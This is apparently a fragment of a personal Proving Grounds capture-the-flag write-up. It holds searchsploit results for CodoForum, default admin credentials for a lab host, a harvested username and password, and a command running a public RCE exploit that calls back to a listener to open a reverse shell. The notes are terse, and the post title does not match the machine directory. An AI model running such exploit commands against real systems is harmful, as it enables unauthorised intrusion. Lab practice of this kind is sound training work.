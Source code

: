 ```yaml
---
layout: post
title:  "Write Up: Proving Grounds Practice - Cockpit"
date:   2024-07-29 16:53:42 -0400
categories: oscp proving-grounds TJNull
---
```



192.168.194.23
me - 

┌──(kali㉿kali)-[~/offsec/pg-practice/Codo]
└─$ searchsploit codoforum                       
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
CodoForum 2.5.1 - Arbitrary File Download                                         | php/webapps/36320.txt
CodoForum 3.2.1 - SQL Injection                                                   | php/webapps/40150.txt
CodoForum 3.3.1 - Multiple SQL Injections                                         | php/webapps/37820.txt
CodoForum 3.4 - Persistent Cross-Site Scripting                                   | php/webapps/40015.txt
Codoforum 4.8.3 - 'input_txt' Persistent Cross-Site Scripting                     | php/webapps/47886.txt
Codoforum 4.8.3 - Persistent Cross-Site Scripting                                 | php/webapps/47876.txt
CodoForum v5.1 - Remote Code Execution (RCE)                                      | php/webapps/50978.py
---------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results


http://192.168.194.23/admin/index.php
admin : admin

Current version: V.5.1.105


jubjub
NFp$2Re@9@Jh9%f


python3 50978.py -t http://192.168.194.23/admin/index.php -u admin -p admin -i http://192.168.45.213 -n 4444